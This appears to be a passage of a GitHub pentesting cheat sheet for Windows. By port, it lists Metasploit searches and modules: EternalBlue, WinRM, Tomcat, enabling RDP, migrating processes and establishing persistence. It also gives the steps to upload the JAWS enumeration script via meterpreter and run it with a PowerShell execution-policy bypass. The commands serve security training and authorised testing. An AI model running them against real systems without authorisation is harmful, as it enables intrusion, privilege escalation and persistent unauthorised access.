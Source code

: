 - Full automatice enumaration for windows [JAWS](https://github.com/411Hall/JAWS)
  - > __you should have access to the target system__
  - __copy the code from the `jaws-enum.ps1` fiel And the save the file as `jaws-enum.ps1`__
  - __upload the file in target system using meterpreter `upload /root/jaws-enum.psq`__
  - __`powershell.exe -ExecutionPloicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`__
  - __when your done with execution the output will save in the `JAWS-Enum.txt`__
  
162 Simple Network Management Protocol (SNMP)
  - __`search type:exploit psexec`__
  -  [SNMP](/Q&A/SMTP.md)

445 Windows MS17-010 SMB Vulnerability(Eternal Blue)
  - __`search eternalblue`__
  -  [Eternal Blue](/Q&A/Eternal_Blue.md)

5985 or 5986 (winRM vuln) ---> http  Microsoft HTTPAPI httpd 2.0 SSDP/UPnp
  - __`search type:auxiliary winrm`__
  - [WinRM](/Q&A/winrm.md)


8080 Apache Tomcat 
  - __`search type:exploit tomcat`__
  - [Tomcat](/Q&A/tomcat.md)

3389 RDP service
  - __`search rdp platform:windows`__
  - __`use post/windows/manage/enable_rdp`__
  - [RDP_enable](/Q&A/rdp_enable.md)
  - __For more information__
  - [RDP2](/Q&A/rdp.md)
  - [RDP3](/Q&A/rdp2.md)


## Windows privilege escalation [win](/Q&A/windows_exploits.md)
- __1.Bypassing UAC with UACMe (User Account control)__
  - [UAC](/Q&A/UAC.md)
 
## Windows post exploit
- __`search migrate`__
```
use post/windows/manage/migrate
exploit
```
## post exploit in windows 
  __finding the current user logged in__

`use post/windows/gather/enum_logged_on_users`
__and exploit it__

### Establishing Persistence On Windows
  - __`search platform:windows persistence`__
  - [Persistence Connection](/Q&A/persistence.md)
